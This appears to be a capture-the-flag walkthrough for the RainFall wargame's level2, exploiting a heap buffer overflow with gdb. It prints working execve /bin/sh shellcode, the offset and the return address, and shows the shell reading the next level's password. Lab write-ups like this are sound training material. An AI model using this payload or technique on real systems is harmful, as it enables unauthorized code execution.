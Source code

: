 # Walkthrough

**Main** : 
make buffer overflow to launch a shell pogram, the idea is to exploit the heap because the stack it protected  
Filled the buffer then jump to the heap address to executed the shellcode
Try to copy a shellcode in the heap by writing it in the input prompt

  
*In x86 and x86-64 assembly, the `eax` register (or `rax` in x86-64) is commonly used to store return values from functions. 
When a function finishes executing, its return value is typically placed in the `eax` register (or `rax` in x86-64) before control is returned to the calling function.*

**simplified sequence of how a function call and return work:**

1.  The caller function pushes arguments onto the stack and then calls the callee function.
2.  The callee function executes and computes its result, which is stored in `eax` (or `rax` in x86-64).
3.  The callee function executes a `ret` instruction, which pops the return address from the stack and transfers control back to the caller.
4.  The caller function can then access the return value from the `eax` (or `rax`) register to use it as needed.

**Process**:  
>   Find the offset to write over the  `eip`  address (return address) :
>   Address of buffer
>   Payload

## Find Offset
```
level2@RainFall:~$ gdb ./level2 
...
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? () ---> 80 in decimal
(gdb) 

````

0x37634136 = 80 in decimal


## Get the address the return address function 
The idea is to copy a shellcode in the heap by writing it in the allocated address of malloc on the return address.
```
(gdb) b strdup
Breakpoint 1 at 0x80483e0
(gdb) run
Starting program: /home/user/level2/level2 
step
step

Breakpoint 1, 0xb7ea8d30 in strdup () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers 
eax            0xbffff6cc	-1073744180
ecx            0xffffffff	-1

....

fs             0x0	0
gs             0x33	51
(gdb) n
Single stepping until exit from function strdup,
which has no line number information.
0x0804853d in p ()
(gdb) info registers 
eax            0x804a008	134520840

```

strdup return address =  0x804a008



## Payload


-   [Shell code](http://shell-storm.org/shellcode/files/shellcode-575.html) : 21 bytes
-   pad of nope data : 59 bytes
-   return address : 4 bytes


**1. Create Payload**
```
 python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08"' > /tmp/payload

```

**2. load payload** 
```

level2@RainFall:~$ cat /tmp/payload - | ./level2 
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
  cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```
